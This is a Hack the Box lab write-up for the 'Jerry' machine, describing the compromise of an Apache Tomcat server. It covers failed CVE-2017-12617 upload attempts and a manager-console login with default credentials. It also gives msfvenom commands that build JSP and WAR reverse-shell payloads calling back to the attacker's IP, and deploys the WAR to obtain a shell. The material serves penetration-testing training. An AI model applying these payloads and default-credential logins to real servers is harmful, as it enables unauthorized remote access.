 # Tomcat

## Webpage

The website, on `http://10.10.10.95:8080`, is just the default page for Apache Tomcat:

![[Pasted image 20210504124212.png]]

### Shell Page

Navigating to `http://10.10.10.95/shell/` returns a blank white page:

![[Pasted image 20210504131221.png]]

There is nothing in the source:

![[Pasted image 20210504131242.png]]

## Tomcat Version

The version number is exposed both in the `nmap` scan and on the page itself. Let's search Exploit DB:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ searchsploit tomcat 7.0
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat 7.0.4 - 'sort' / 'orderBy' Cross-Site Scripting                                                                                                          | linux/remote/35011.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                           | windows/webapps/42953.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                           | jsp/webapps/42966.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We might be able to upload a JSP shell.

## Trying CVE-2017-12617 Exploit

Looking at the exploit with `searchsploit -x jsp/webapps/42966.py`, it seems to reference CVE-2017-12617, which it uses to upload a webshell:

![[Pasted image 20210504124851.png]]

The code seems to generate a JSP payload and upload it directly to the box, using the following two methods:

![[Pasted image 20210504124931.png]]

### Running the Exploit

I initially thought that we had to generate our own shellcode in JSP to point back to our box, and that the exploit just uploads the file. However, it turns out the program actually generates a shell. The `pwn` parameter seems to be just a filename.

Nevertheless, I will quickly go over what I did to generate a `.jsp` shell payload:
- I ran some quick [[Writeups/Hack the Box/Boxes/Jerry/5 - Enumeration#Enumerating OS|OS Enumeration]] to check the operating system, as I wasn't sure at this point (we can cheat and look at the box info on HTB, but that's no fun)
- Created a payload with `msfvenom --f jsp -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -o shell.jsp`
- Started a [[netcat]] listener and tried running the exploit with `python2 42966.py -u http://10.10.10.95:8080 -p shell.jsp`

Now I knew this wasn't necessary, I changed my syntax, just providing the name `shell`. However, running it again with these options just gave me a 404 `resource is not available` error:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ python2 42966.py -u http://10.10.10.95:8080 -p shell



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ id

Apache Tomcat/7.0.88 - Error report

 
HTTP Status 404 - /shell.jsp

type
 Status report
message
 
/shell.jsp

description
 
The requested resource is not available.

Apache Tomcat/7.0.88
```

I also tried navigating to it in browser at `http://10.10.10.95/shell.jsp`, and even tried `http://10.10.10.95/shell/shell.jsp` in case it went to that directory - but both of these also gave me a 404.

Looking at the [CVE details](https://access.redhat.com/security/cve/cve-2017-12617), the resource needs to not be in readonly mode, and allow `PUT` requests:

![[Pasted image 20210504132129.png]]

This also states that it only affects Linux machines. So we may be barking up the wrong tree.

## Alternate Exploit

The other option, `windows/webapps/42953.txt`, seems to be tailored to windows. Running `searchsploit -x windows/webapps/42953.txt` gives an overview of the request structure needed.

![[Pasted image 20210504132312.png]]

I pasted this directly into Burp Repeater, and just had to configure the host:

![[Pasted image 20210504133101.png]]

My first attempt gave me a blank response, so I made sure to change the referer header to match the current IP just in case, and sent again:

![[Pasted image 20210504133324.png]]

The response was also blank, so I just went and checked if the shell had been uploaded. However, `http://10.10.10.95/1.jsp` also gave me a 404.

## Manager Console

I decided to change my strategy and look at something else. I went back to the main site, and navigated to the manager app.

Here I was prompted for some credentials. I tried the default login for Tomcat, `tomcat`:`s3cret`:

![[Pasted image 20210504133752.png]]

I was in!

### WAR File Shell

Now the next step was to use this to upload a shell. Scrolling down there was an option to deploy a WAR file:

![[Pasted image 20210504133840.png]]

I did a quick check in `/usr/share/webshells` to see if there was a folder for `WAR` files, but there wasn't - so I went to `msfvenom` instead:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f war -o warshell.war
Payload size: 13400 bytes
Final size of war file: 13400 bytes
Saved as: warshell.war
```

I found a good guide when searching "kali war shell" that took me through this process: [https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/](https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/)

I then selected the file on my box and clicked deploy:

![[Pasted image 20210504135209.png]]

We can then visit `http://10.10.10.95/warshell`:

![[Pasted image 20210504135400.png]]

Which spawns a shell:

![[Pasted image 20210504142751.png]]

And we can grab both flags:

![[Pasted image 20210504143146.png]]

That's the box!

![[Pasted image 20210504145745.png]]

# Tags

#writeup #oscp-prep #windows #file-upload #tomcat